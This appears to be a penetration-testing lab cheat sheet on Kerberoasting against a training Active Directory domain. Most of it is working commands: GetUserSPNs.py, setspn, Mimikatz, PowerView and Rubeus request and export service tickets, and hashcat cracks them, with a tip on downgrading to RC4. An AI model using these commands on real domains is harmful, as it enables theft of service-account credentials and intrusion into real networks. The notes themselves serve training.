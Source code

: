 ## Kerberosting from Linux
## Kerberoasting with GetUserSPNs.py
Listing SPN Accounts with GetUserSPNs.py
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
Requesting all TGS Tickets
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```
Requesting a Single TGS ticket
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
Saving the TGS Ticket to an Output File
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
Cracking the Ticket Offline with Hashcat
```
 hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```

## Kerberoasting from Windows
### Manual method
#### Enumerating SPNs with setspn.exe
```
setspn.exe -Q */*
```
Targeting a single user. These tickets will be loaded into memory and can be extracted by using mimikatz.
```
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
Retrieve all tickets using setspn.exe
```
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
Extracting tickets from memory with Mimikatz
```
mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export
```
The base64 output can be taken and decoded to obtain the kirbi file. This kirbi file needs to be converted by using kirbi2john and hashcrack can be used to crack it.
```
echo "<base64 blob>" |  tr -d \\n
cat encoded_file | base64 -d > sqldev.kirbi
python2.7 kirbi2john.py sqldev.kirbi
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```
### Automated Tools - Powerview
```
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```
for specific user
```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
exporting all tickets to a CSV file
```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
### Rubeus
accounts with RC4 encryption are easy to crack
```
.\Rubeus.exe kerberoast /stats
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
specific user
```
.\Rubeus.exe kerberoast /user:testspn /nowrap
```
Checking with PowerView, we can see that the msDS-SupportedEncryptionTypes attribute is set to 0. The chart here tells us that a decimal value of 0 means that a specific encryption type is not defined and set to the default of RC4_HMAC_MD5.
If we check this with PowerView, we'll see that the msDS-SupportedEncryptionTypes attribute is set to 24, meaning that AES 128/256 encryption types are the only ones supported.
```
 Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
hashcat code for aes
```
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```
/tgtdeleg flag can be used to downgrade encryption to RC4. Only works on server 2016 and older.



